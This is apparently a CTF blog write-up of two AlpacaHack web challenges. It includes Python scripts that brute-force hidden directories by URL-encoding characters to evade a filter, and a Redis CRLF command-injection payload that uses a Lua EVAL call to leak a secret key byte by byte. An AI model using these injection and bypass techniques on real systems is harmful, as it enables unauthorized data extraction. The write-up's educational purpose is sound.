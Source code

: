 ```yaml
---
weight: 1
title: AlpacaHack CTF 2024 Web Writeups
date: 2024-11-30T13:32:12+03:00
draft: false
author: Jonathan Levy
authorLink: https://jonathann403.github.io
description: Writeups for WEB challenges in AlpacaHack (7th round) CTF 2024.
tags:
  - web
  - xss
  - redis
  - bruteforce
lightgallery: true
toc:
  enable: true
lastmod: 2024-11-30T13:32:12+03:00
---
```

## Introduction

While searching for a CTF to participate in this weekend with my team (FF2), I stumbled upon one by accident—and it turned out to be a great find! Hosted by a group from Tokyo, AlpacaHack is a CTF platform that organizes monthly CTF competitions (rounds), each focusing on a different theme. This time, it was web security!

## "Treasure Hunt" (116 pts, 71 solves)

![[Pasted image 20241130131728.png]]

Inside the challenge's files we have the server code files along with some random files containing emojis
![[Pasted image 20241130132056.png]]

in the `Dockerfile`, we can see this weird flag storing method:
![[Pasted image 20241130132149.png]]

![[Pasted image 20241130132640.png]]
after pasting it to terminal, we can see that flag's path is `./public/3/8/7/6/9/1/7/c/b/d/1/b/3/d/b/1/2/e/3/9/5/8/7/c/6/6/a/c/2/8/9/1/f/l/a/g/./t/x/t`  (a-f, 1-9)
while `public` means that we can GET to this file.

In `index.js` , at `GET /` the server returns this html that contains the files under the `./public` directory.

![[Pasted image 20241130133026.png]]
The server also returns `400` if the url contains `f,l,a,g` .
I've managed to bypass this check by passing the letters as url encoded:
![[Pasted image 20241130133401.png]]
![[Pasted image 20241130133527.png]]

now we need to get into the flag's directory and get the flag.
To do that, I need a way to find if any directory exist on the server, and I can do that by sending a request to the a directory (without `/`), for example: `GET /hello`,
If this directory exist server automatically redirects me to `/hello/`.

Let's see how I can automate it with python to get the flag.

```python
import httpx

url = "http://34.170.146.252:19843"
chars = "0123456789abcdeflagtxt"
flag = ""

with httpx.Client(base_url=url) as client:
    while True:
        for c in chars:
            path = flag + "/" + f"%{ord(c):02X}"
            response = client.get(path)

            if response.status_code == 301:
                flag = path
                print(flag)
                break
            elif response.status_code == 200:
                print(response.text)
                exit()
```

I've tried to make it with `requests` but it keeps redirecting me so I had to do it with httpx...
![[Pasted image 20241130135946.png]]

## "Alpaca Poll" (146 pts, 42 solves)

![[Pasted image 20241130140118.png]]

![[Pasted image 20241130140230.png]]

This challenge suppose to be a poll site... let's look at the source code:
![[Pasted image 20241130140349.png]]

we can see that this one uses `redis`, let's see how he manages to speak with the server.


![[Pasted image 20241130140529.png]]
![[Pasted image 20241130140630.png]]

by taking a look on these functions (and comments lol), we can understand that we have to find an injection in here.
![[Pasted image 20241130141024.png]]
also, in the init function, we can see that the flag is in a `redis key` named `flag`.

I'll deploy this challenge locally because of this function that prints the input/output of the redis:
![[Pasted image 20241130140921.png]]

Let's now focus on the `POST /vote`:

The `replace()` only replaces the first appearance of the provided char... that means we can bypass this check and have a command injection.

```js
const message = `INCR ${animal}\r\n`;
```
so for injection, we need to get message to be:
```js
const message = `INCR dog\r\nGET flag\r\n`;
```

and to make it happen, we need `animal`'s value to be: `\r\ndog\r\nGET flag`

explanation:
the first `\r\n` are deleted because of the replace() function, and the rest is not moving anywhare.

and after url encoding:

`animal=%0D%0Adog%0D%0AGET%20flag`

in the server, it looks like that (redis command injected successfully):
![[Pasted image 20241130141921.png]]

Now we need to of a creative way to make the client see the value of the flag!

![[Pasted image 20241130142329.png]]
![[Pasted image 20241130142339.png]]
as you can see, every value that is being returned, is getting inside the `parseInt()` function.
that means we can't return a string of the flag, BUT, we CAN return the ascii value of each letter in the flag, and get it inside a string key like dog, and send a request to `\getVotes` to get a dictionary of the results!

After some research, we can do it using the `EVAL` cmd in `redis` that executes a `lua` script that gives more features to the command.

```lua
`EVAL "redis.call('SET', 'dog', string.byte(redis.call('GET', 'flag'), 1))" 0`
```

this will set dog's value to be flag's value at specific index of this string!

Now I can automate it with python:

```python
import requests
import json
import time

index = 1

vote_url = "http://localhost:3000/vote"
get_votes_url = "http://localhost:3000/votes"
flag = ""

while True:

	animal_value = f"\r\ndog\r\nEVAL \"redis.call('SET', 'dog', string.byte(redis.call('GET', 'flag'), {index}))\" 0"
	res = requests.post(vote_url, data={"animal": animal_value})
	print(res.text)
	res2 = requests.get(get_votes_url)
	flag += chr(json.loads(res2.text)["dog"])
	index += 1
	if chr(json.loads(res2.text)["dog"]) == '}': break

print(flag)	
```


this does the job :)

Now, instead of localhost, let's put our instance: 
```python
vote_url = "http://34.170.146.252:32483/vote"
get_votes_url = "http://34.170.146.252:32483/votes"
```
![[Pasted image 20241130145312.png]]

YAY!